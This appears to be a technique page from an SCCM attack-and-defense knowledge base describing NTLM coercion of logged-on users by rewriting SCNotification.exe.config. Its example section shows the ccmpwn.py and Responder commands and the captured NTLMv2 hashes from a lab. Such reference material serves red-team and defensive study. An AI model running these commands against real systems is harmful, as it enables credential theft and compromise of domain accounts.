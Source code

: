 # COERCE-2

## Description
NTLM coercion of currently logged on users via AppDomainManager injection

## MITRE ATT&CK TTPs
- [T1574.014](https://attack.mitre.org/techniques/T1574/014/) - Hijack Execution Flow

## Requirements
- Administratiive privileges on the SCCM client

## Summary
The CcmExec service executes SCNotification.exe for every user logged onto the SCCM client. Since SCNotification.exe is a .NET application, its configuration file can be modified to point to a .NET assembly on a UNC path, resulting in NTLM authentication coercion.

This technique requires administrative privileges on the SCCM client to overwrite the .NET assembly's configuration file (i.e., `C:\Windows\CCM\SCNotification.exe.config`).

Once the file is overwritten, the CcmExec service can be restarted to trigger the SCNotification.exe to attempt to load the remote assembly from an attacker-controlled server. The authentication can be coerced via SMB or HTTP.

This is automated by CcmPwn's `coerce` command.

Note: Rather than performing coercion, a payload can be uploaded and configured in SCNotification.exe.config to achieve code execution in the user context.

## Impact
This technique provides a method to compromise logged on users through NTLM relay or NetNTLM hash cracking.

## Defensive IDs
Andrew provides defensive considerations in his blog post on this topic. Since these detections are not SCCM-specific, we have not included them in Misconfiguration Manager but they can be found [here](https://web.archive.org/web/20250222182108/https://cloud.google.com/blog/topics/threat-intelligence/windows-session-hijacking-via-ccmexec#:~:text=Defensive%20Considerations).

## Examples
### CcmPwn Coerce
First, setup a listener such as Responder or ntlmrelayx. Here we use Responder:
```
┌──(kali㉿SCCM1-kali)-[~/impacket]
└─$ sudo responder -A -I eth0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

<...SNIP...>

[+] Listening for events...
```

Next, run `ccmpwn.py` with administrative credentials:
```
┌──(impacket)─(kali㉿SCCM1-kali)-[~/impacket/ccmpwn]
└─$ python3 ccmpwn.py ludus/domainadmin:'password'@10.2.10.11 coerce -computer 10.2.10.99 -method smb
____ ____ _  _ ___  _ _ _ _  _
|    |    |\/| |__] | | | |\ |
|___ |___ |  | |    |_|_| | \|
v1.0.0
[*] Downloading original SCNotification.exe.config via SMB
[*] Uploading malicious SCNotification.exe.config via SMB
[*] Stopping CcmExec service. Waiting 20 seconds to restart service.
[*] Starting CcmExec service. Wait around 30 seconds for SCNotification.exe to run config file.
[*] Cleaning up SCNotification.exe.config
```

Now wait for `ccmpwn.py` to restart the service and capture/relay the incoming NTLM authentication:
```
[SMB] NTLMv2-SSP Client   : 10.2.10.11
[SMB] NTLMv2-SSP Username : ludus\domainadmin
[SMB] NTLMv2-SSP Hash     : domainadmin::ludus:03489dd2ad202a57:6EFA74B3414AD598D2A8EADB735C48CD:01010000000<...SNIP...>030002E0032002E00310030002E00390039000000000000000000
[SMB] NTLMv2-SSP Client   : 10.2.10.11
[SMB] NTLMv2-SSP Username : ludus\domainuser
[SMB] NTLMv2-SSP Hash     : domainuser::ludus:5faf4f644ffb9899:5CF9B8944938B83B6BF5BF13019D53B1:010100000000<...SNIP...>030002E0032002E00310030002E00390039000000000000000000
```

## References
- Andrew Oliveau, [SeeSeeYouExec: Windows Session Hijacking via CcmExec](https://cloud.google.com/blog/topics/threat-intelligence/windows-session-hijacking-via-ccmexec)
- Andrew Oliveau, [ccmpwn](https://github.com/mandiant/ccmpwn)
- lgandx, [Responder](https://github.com/lgandx/Responder)
- Fortra, [ntlmrelayx](https://github.com/fortra/impacket/blob/a63c6522d694a73195e15958734df7de53b43c11/examples/ntlmrelayx.py)
